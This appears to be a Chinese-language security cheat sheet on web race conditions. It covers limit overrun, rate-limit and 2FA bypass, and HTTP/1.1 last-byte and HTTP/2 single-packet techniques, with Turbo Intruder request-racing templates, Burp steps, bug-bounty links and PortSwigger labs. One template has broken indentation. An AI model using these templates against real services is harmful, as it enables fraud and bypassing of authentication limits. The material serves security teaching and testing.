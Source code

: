 # 竞态条件

> 当进程在关键或意外的情况下依赖于其他事件的顺序或时间时，可能会发生竞态条件。在Web应用程序环境中，多个请求可以在给定时间内同时处理，开发人员可能让并发由框架、服务器或编程语言来处理。

## 概要

- [工具](#工具)
- [方法论](#方法论)
    - [限制超限](#限制超限)
    - [绕过速率限制](#绕过速率限制)
- [技术](#技术)
    - [HTTP/1.1 最后字节同步](#http11-最后字节同步)
    - [HTTP/2 单包攻击](#http2-单包攻击)
- [Turbo Intruder](#turbo-intruder)
    - [示例 1](#示例-1)
    - [示例 2](#示例-2)
- [实验室](#实验室)
- [参考文献](#参考文献)

## 工具

- [PortSwigger/turbo-intruder](https://github.com/PortSwigger/turbo-intruder) - Burp Suite扩展，用于发送大量HTTP请求并分析结果。
- [JavanXD/Raceocat](https://github.com/JavanXD/Raceocat) - 使利用Web应用程序中的竞态条件变得高效且易于使用。
- [nxenon/h2spacex](https://github.com/nxenon/h2spacex) - 基于Scapy的HTTP/2单包攻击低级库/工具‌ + 利用时序攻击的漏洞利用工具。

## 方法论

### 限制超限

限制超限是指多个线程或进程竞争更新或访问共享资源的情景，导致资源超出其预期限制。

**示例**: 超支限额、多次投票、多次使用礼品卡。

- [竞态条件允许多次兑换礼品卡，导致免费“金钱” - @muon4](https://hackerone.com/reports/759247)
- [竞态条件可以用来绕过邀请限额 - @franjkovic](https://hackerone.com/reports/115007)
- [使用一个邀请注册多个用户 - @franjkovic](https://hackerone.com/reports/148609)

### 绕过速率限制

当攻击者利用速率限制机制中缺乏适当同步的问题以超过预期的请求数量限制时，就会发生速率限制绕过。速率限制旨在控制操作频率（例如API请求、登录尝试），但竞态条件可以让攻击者绕过这些限制。

**示例**: 绕过防暴力破解机制和双因素认证。

- [Instagram密码重置机制中的竞态条件 - Laxman Muthiyah](https://youtu.be/4O9FjTMlHUM)

## 技术

### HTTP/1.1 最后字节同步

发送所有请求，除了最后一个字节，然后通过发送最后一个字节“释放”每个请求。

使用Turbo Intruder执行最后字节同步

```py
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

**示例**:

- [破解reCAPTCHA，Turbo Intruder风格 - James Kettle](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style)

### HTTP/2 单包攻击

在HTTP/2中，您可以通过单个连接并发发送多个HTTP请求。在单包攻击中，大约20/30个请求将被发送，并且它们将在服务器端同时到达。使用单个请求消除了网络抖动。

- [PortSwigger/turbo-intruder/race-single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py)
- Burp Suite
    - 向Repeater发送请求
    - 复制请求20次（Ctrl+R）
    - 创建一个新组并将所有请求添加到其中
    - 并行发送组（单包攻击）

**示例**:

- [CVE-2022-4037 - 使用单包攻击发现Gitlab中的竞态条件漏洞 - James Kettle](https://youtu.be/Y0NVIVucQNE)

## Turbo Intruder

### 示例 1

1. 将请求发送到Turbo Intruder
2. 使用此Python代码作为Turbo Intruder的负载

   ```python
   def queueRequests(target, wordlists):
       engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False
                           )

   for i in range(30):
       engine.queue(target.req, i)
           engine.queue(target.req, target.baseInput, gate='race1')


       engine.start(timeout=5)
   engine.openGate('race1')

       engine.complete(timeout=60)


   def handleResponse(req, interesting):
       table.add(req)
   ```

3. 现在设置外部HTTP头x-request: %s - :warning: 这是Turbo Intruder所需的
4. 点击“攻击”

### 示例 2

当需要在发送请求1后立即发送请求2，而窗口可能只有几毫秒时，可以使用以下模板。

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    '''

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30):
        engine.queue(request2, gate='race1')
    engine.openGate('race1')
    engine.complete(timeout=60)
def handleResponse(req, interesting):
    table.add(req)
```

## 实验室

- [PortSwigger - 限制超限竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)
- [PortSwigger - 多端点竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
- [PortSwigger - 通过竞态条件绕过速率限制](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)
- [PortSwigger - 多端点竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
- [PortSwigger - 单端点竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)
- [PortSwigger - 利用时间敏感漏洞](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
- [PortSwigger - 部分构造竞态条件](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction)

## 参考文献

- [超越极限：通过首次序列同步扩展单包竞态条件以突破65,535字节限制 - @ryotkak - 2024年8月2日](https://flatt.tech/research/posts/beyond-the-limit-expanding-single-packet-race-condition-with-first-sequence-sync/)
- [DEF CON 31 - 打破状态机的真实潜力：Web竞态条件 - James Kettle (@albinowax) - 2023年9月15日](https://youtu.be/tKJzsaB1ZvI)
- [Web应用程序中竞态条件漏洞的利用 - Javan Rasokat - 2022年10月6日](https://conference.hitb.org/hitbsecconf2022sin/materials/D2%20COMMSEC%20-%20Exploiting%20Race%20Condition%20Vulnerabilities%20in%20Web%20Applications%20-%20Javan%20Rasokat.pdf)
- [Web竞态条件的新技术和工具 - Emma Stocks - 2023年8月10日](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
- [Web应用中的竞态条件漏洞：案例研究 - Mandeep Jadon - 2018年4月24日](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
- [Web上的竞态条件 - Josip Franjkovic - 2016年7月12日](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
- [打破状态机：Web竞态条件的真正潜力 - James Kettle (@albinowax) - 2023年8月9日](https://portswigger.net/research/smashing-the-state-machine)
- [Turbo Intruder：拥抱十亿请求攻击 - James Kettle (@albinowax) - 2019年1月25日](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)